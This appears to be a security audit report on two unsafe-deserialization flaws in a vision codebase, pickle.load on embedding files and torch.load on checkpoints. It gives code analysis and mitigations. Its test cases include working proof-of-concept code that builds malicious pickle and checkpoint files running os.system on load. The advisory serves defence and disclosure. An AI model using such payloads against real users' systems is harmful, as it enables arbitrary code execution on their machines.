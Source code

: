 ### Vulnerability 1: Pickle Deserialization Vulnerability in Object Identification

* Vulnerability Name: Unsafe Deserialization of Embeddings in Object Identification

* Description:
    1. The `identification/test.py` script is used to perform object identification using pre-computed image embeddings.
    2. The script loads these embeddings from pickle files located within the dataset directory. Specifically, it attempts to load `embedding.pkl` and `testcase_embedding.pkl` from the directory specified by the `--dataset_path` argument.
    3. The `pickle.load()` function in Python is used to deserialize these files. This function is known to be vulnerable to arbitrary code execution if the pickle file is maliciously crafted.
    4. An attacker could replace the legitimate `embedding.pkl` or `testcase_embedding.pkl` files within a dataset with malicious pickle files.
    5. When a user runs `identification/test.py` with the `--dataset_path` pointing to the directory containing the malicious pickle files, the `pickle.load()` function will execute the embedded malicious code.

* Impact: Arbitrary code execution on the user's machine. This could lead to complete system compromise, including data theft, malware installation, and denial of service.

* Vulnerability Rank: Critical

* Currently Implemented Mitigations: None

* Missing Mitigations:
    - Avoid using pickle for deserialization of embeddings. Use a safer serialization format like JSON or NumPy's `.npy` format.
    - Implement integrity checks for embedding files, such as cryptographic signatures, to ensure they haven't been tampered with.
    - Warn users about the security risks of using datasets from untrusted sources and the potential for malicious files within them.

* Preconditions:
    1. The user must download and use a dataset that is provided or modified by an attacker.
    2. The attacker must be able to replace or include malicious `embedding.pkl` or `testcase_embedding.pkl` files within the dataset.
    3. The user must execute the `identification/test.py` script with the `--dataset_path` argument pointing to the malicious dataset directory.

* Source Code Analysis:
    ```python
    File: /code/identification/test.py

    ...
    embedding_location = os.path.join(args.dataset_path, "embedding.pkl")
    testcase_embedding_location = os.path.join(args.dataset_path, "testcase_embedding.pkl")

    ...
    feature_embeddings = {}
    if os.path.exists(embedding_location):
        feature_embeddings_file = open(embedding_location, 'rb')
        feature_embeddings_saved = pickle.load(feature_embeddings_file) # Vulnerable line
        feature_embeddings = feature_embeddings_saved['feature_embeddings']
        fnsku_map = feature_embeddings_saved['fnsku_map']
        feature_embeddings_file.close()
    ...

    testcase_embeddings = {}
    if os.path.exists(testcase_embedding_location):
        testcase_embeddings_file = open(testcase_embedding_location, 'rb')
        testcase_embeddings_saved = pickle.load(testcase_embeddings_file) # Vulnerable line
        testcase_embeddings = testcase_embeddings_saved['testcase_embeddings']
        testcase_embeddings_file.close()
    ...
    ```
    The code directly uses `pickle.load()` to deserialize data from files whose paths are constructed using user-provided `dataset_path`. An attacker can craft a malicious pickle file and place it at the expected location within a malicious dataset. When the user executes `test.py` pointing to this dataset, the malicious pickle file will be deserialized, leading to code execution.

* Security Test Case:
    1. **Prepare a malicious pickle file (e.g., `embedding.pkl`)**:
        ```python
        import pickle
        import os

        class MaliciousClass:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',))

        malicious_data = {'feature_embeddings': MaliciousClass(), 'fnsku_map': {}}

        with open('embedding.pkl', 'wb') as f:
            pickle.dump(malicious_data, f)
        ```
    2. **Create a malicious dataset directory**:
        ```bash
        mkdir malicious_dataset
        mv embedding.pkl malicious_dataset/
        ```
    3. **Run `identification/test.py` with the malicious dataset**:
        ```bash
        cd code/identification/
        python test.py --dataset_path ../../malicious_dataset/
        ```
    4. **Verify code execution**: Check if the file `/tmp/pwned` exists. If it does, it confirms that the malicious code within the pickle file was executed.
        ```bash
        ls /tmp/pwned
        ```
        If the file exists, the vulnerability is confirmed.

---

### Vulnerability 2: Unsafe Deserialization of Model Checkpoints

* Vulnerability Name: Unsafe Deserialization of Model Checkpoints

* Description:
    1. The `segmentation/test_mask_rcnn.py` and `segmentation/train_mask_rcnn.py` scripts load model checkpoints using `torch.load()`.
    2. The path to the checkpoint file is provided by the user via the `--resume-from` argument (or `--checkpoint` in `defect_detection/defect_images/train.py` and `defect_detection/defect_videos/train.py`).
    3. Similar to pickle, `torch.load()` can be exploited to execute arbitrary code if a malicious checkpoint file is loaded.
    4. An attacker could create a malicious checkpoint file and trick a user into loading it.
    5. When the user runs the scripts and provides the path to the malicious checkpoint file, `torch.load()` will deserialize the file and execute the embedded malicious code.

* Impact: Arbitrary code execution on the user's machine, leading to potential system compromise.

* Vulnerability Rank: High

* Currently Implemented Mitigations: None

* Missing Mitigations:
    - Warn users against loading checkpoints from untrusted sources.
    - Implement integrity checks for checkpoint files, such as cryptographic signatures.
    - Consider safer alternatives for checkpoint loading if security is a major concern, although `torch.load` is the standard way to load PyTorch models.

* Preconditions:
    1. The user must be convinced to download and load a malicious checkpoint file provided by an attacker.
    2. The user must execute either `segmentation/test_mask_rcnn.py` or `segmentation/train_mask_rcnn.py` (or similar scripts in `defect_detection`) and provide the path to the malicious checkpoint file using the `--resume-from` argument.

* Source Code Analysis:
    ```python
    File: /code/segmentation/test_mask_rcnn.py
    ...
    if args.resume_from is not None:
        checkpoint = torch.load(args.resume_from) # Vulnerable line
        model.load_state_dict(checkpoint["model_state_dict"])
    ...
    ```
    ```python
    File: /code/segmentation/train_mask_rcnn.py
    ...
    if args.resume_from is not None:
        checkpoint = torch.load(args.resume_from) # Vulnerable line
        model.load_state_dict(checkpoint["model_state_dict"])
        optimizer.load_state_dict(checkpoint["optimizer_state_dict"])
        s_epoch = checkpoint["epoch"] + 1
    ...
    ```
    The code uses `torch.load()` to load checkpoint files from paths provided as command-line arguments. This makes the scripts vulnerable to loading malicious checkpoint files that can execute arbitrary code during deserialization.

* Security Test Case:
    1. **Prepare a malicious checkpoint file (e.g., `malicious_checkpoint.pt`)**:
        ```python
        import torch
        import os

        class MaliciousClass:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned_checkpoint',))

        checkpoint = {
            'model_state_dict': MaliciousClass(),
            'optimizer_state_dict': {},
            'epoch': 0
        }
        torch.save(checkpoint, 'malicious_checkpoint.pt')
        ```
    2. **Run `segmentation/test_mask_rcnn.py` with the malicious checkpoint**:
        ```bash
        cd code/segmentation/
        python test_mask_rcnn.py --dataset_path <path_to_any_dataset> --resume-from malicious_checkpoint.pt
        ```
        Replace `<path_to_any_dataset>` with a valid dataset path for the script to run without other errors.
    3. **Verify code execution**: Check if the file `/tmp/pwned_checkpoint` exists. If it does, it confirms that the malicious code within the checkpoint file was executed.
        ```bash
        ls /tmp/pwned_checkpoint
        ```
        If the file exists, the vulnerability is confirmed.